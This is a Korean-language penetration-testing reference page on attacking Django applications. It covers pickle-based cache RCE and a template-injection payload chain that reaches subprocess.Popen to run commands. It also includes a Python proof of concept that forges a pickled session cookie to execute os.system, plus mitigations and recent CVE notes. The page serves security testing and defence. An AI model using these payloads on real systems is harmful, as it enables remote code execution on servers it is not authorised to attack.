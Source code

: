 # Django

{{#include /banners/hacktricks-training.md}}

## 캐시 조작을 통한 RCE
Django의 기본 캐시 저장 방법은 [Python pickles](https://docs.python.org/3/library/pickle.html)로, [신뢰할 수 없는 입력이 언픽클될 경우](https://media.blackhat.com/bh-us-11/Slaviero/BH_US_11_Slaviero_Sour_Pickles_Slides.pdf) RCE로 이어질 수 있습니다. **공격자가 캐시에 대한 쓰기 접근 권한을 얻으면, 이 취약점을 기반 서버에서 RCE로 확대할 수 있습니다**.

Django 캐시는 네 가지 장소 중 하나에 저장됩니다: [Redis](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/redis.py#L12), [메모리](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/locmem.py#L16), [파일](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/filebased.py#L16), 또는 [데이터베이스](https://github.com/django/django/blob/48a1929ca050f1333927860ff561f6371706968a/django/core/cache/backends/db.py#L95). Redis 서버나 데이터베이스에 저장된 캐시는 가장 가능성이 높은 공격 벡터(Redis 주입 및 SQL 주입)이며, 공격자는 파일 기반 캐시를 사용하여 임의의 쓰기를 RCE로 전환할 수도 있습니다. 유지 관리자는 이를 비문제로 표시했습니다. 캐시 파일 폴더, SQL 테이블 이름 및 Redis 서버 세부정보는 구현에 따라 다를 수 있습니다.

이 HackerOne 보고서는 SQLite 데이터베이스에 저장된 Django 캐시를 악용하는 훌륭하고 재현 가능한 예제를 제공합니다: https://hackerone.com/reports/1415436

---

## 서버 측 템플릿 주입 (SSTI)
Django 템플릿 언어(DTL)는 **튜링 완전**합니다. 사용자 제공 데이터가 *템플릿 문자열*로 렌더링되면(예: `Template(user_input).render()`를 호출하거나 `|safe`/`format_html()`가 자동 이스케이프를 제거할 때), 공격자는 전체 SSTI → RCE를 달성할 수 있습니다.

### 탐지
1. *모든* 비위생화된 요청 데이터를 포함하는 `Template()` / `Engine.from_string()` / `render_to_string()`에 대한 동적 호출을 찾습니다.
2. 시간 기반 또는 산술 페이로드를 전송합니다:
```django
{{7*7}}
```
렌더링된 출력에 `49`가 포함되면 입력이 템플릿 엔진에 의해 컴파일됩니다.

### RCE로의 원시 단계
Django는 `__import__`에 대한 직접 접근을 차단하지만, Python 객체 그래프에 접근할 수 있습니다:
```django
{{''.__class__.mro()[1].__subclasses__()}}
```
`subprocess.Popen`의 인덱스를 찾고(약 400–500, Python 빌드에 따라 다름) 임의의 명령을 실행합니다:
```django
{{''.__class__.mro()[1].__subclasses__()[438]('id',shell=True,stdout=-1).communicate()[0]}}
```
더 안전한 범용 장치는 `cls.__name__ == 'Popen'`이 될 때까지 반복하는 것입니다.

같은 장치는 사용자 입력을 잘못 처리하는 **Debug Toolbar** 또는 **Django-CMS** 템플릿 렌더링 기능에도 적용됩니다.

---

## 피클 기반 세션 쿠키 RCE
설정 `SESSION_SERIALIZER = 'django.contrib.sessions.serializers.PickleSerializer'`가 활성화되어 있거나 (피클을 역직렬화하는 사용자 정의 직렬 변환기), Django는 *세션 쿠키를 복호화하고 역직렬화*합니다 **보기 코드 호출 전에**. 따라서 유효한 서명 키(기본적으로 프로젝트 `SECRET_KEY`)를 소유하는 것만으로도 즉각적인 원격 코드 실행이 가능합니다.

### 익스플로잇 요구 사항
* 서버가 `PickleSerializer`를 사용합니다.
* 공격자가 `settings.SECRET_KEY`를 알고 있거나 추측할 수 있습니다 (GitHub, `.env`, 오류 페이지 등을 통해 유출됨).

### 개념 증명
```python
#!/usr/bin/env python3
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
import os, base64

class RCE(object):
def __reduce__(self):
return (os.system, ("id > /tmp/pwned",))

mal = signing.dumps(RCE(), key=b'SECRET_KEY_HERE', serializer=PickleSerializer)
print(f"sessionid={mal}")
```
쿠키를 전송하면 페이로드가 WSGI 작업자의 권한으로 실행됩니다.

**완화 조치**: 기본 `JSONSerializer`를 유지하고, `SECRET_KEY`를 회전시키며, `SESSION_COOKIE_HTTPONLY`를 구성합니다.

---

## 최근 (2023-2025) 고위험 Django CVE 점검 사항
* **CVE-2025-48432** – *이스케이프되지 않은 `request.path`를 통한 로그 주입* (2025년 6월 4일 수정). 공격자가 로그 파일에 개행/ANSI 코드를 밀어넣고 하위 로그 분석을 오염시킬 수 있습니다. 패치 수준 ≥ 4.2.22 / 5.1.10 / 5.2.2.
* **CVE-2024-42005** – *`JSONField`의 `QuerySet.values()/values_list()`에서의 치명적인 SQL 주입* (CVSS 9.8). JSON 키를 조작하여 인용을 벗어나고 임의의 SQL을 실행합니다. 4.2.15 / 5.0.8에서 수정됨.

항상 `X-Frame-Options` 오류 페이지 또는 `/static/admin/css/base.css` 해시를 통해 정확한 프레임워크 버전을 식별하고, 해당되는 경우 위 사항을 테스트합니다.

---

## 참조
* Django 보안 릴리스 – "Django 5.2.2, 5.1.10, 4.2.22가 CVE-2025-48432를 해결합니다" – 2025년 6월 4일.
* OP-Innovate: "Django가 SQL 주입 결함 CVE-2024-42005를 해결하기 위해 보안 업데이트를 릴리스합니다" – 2024년 8월 11일.

{{#include /banners/hacktricks-training.md}}
